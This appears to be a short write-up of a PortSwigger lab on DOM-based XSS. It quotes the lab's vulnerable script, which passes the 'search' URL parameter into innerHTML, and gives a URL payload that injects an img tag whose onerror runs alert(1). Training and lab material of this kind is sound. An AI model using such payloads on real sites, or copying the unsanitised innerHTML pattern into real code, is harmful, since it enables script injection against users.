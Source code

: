 # [DOM XSS: `innerHTML` Sink Using Source `location.search`](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-innerhtml-sink)

Vulnerable code from `/?search=`:

```javascript
<script>
  function doSearchQuery(query) {
    document.getElementById('searchMessage').innerHTML = query;
  }
  var query = (new URLSearchParams(window.location.search)).get('search');
  if(query) {
    doSearchQuery(query);
  }
</script>
```

![](_/psa-dom-xss-in-innerhtml-sink-using-source-location.search-20250611-1.png)

Payload: `/?search="%27><img%20src%20onerror=alert(1)>1%27"<>`
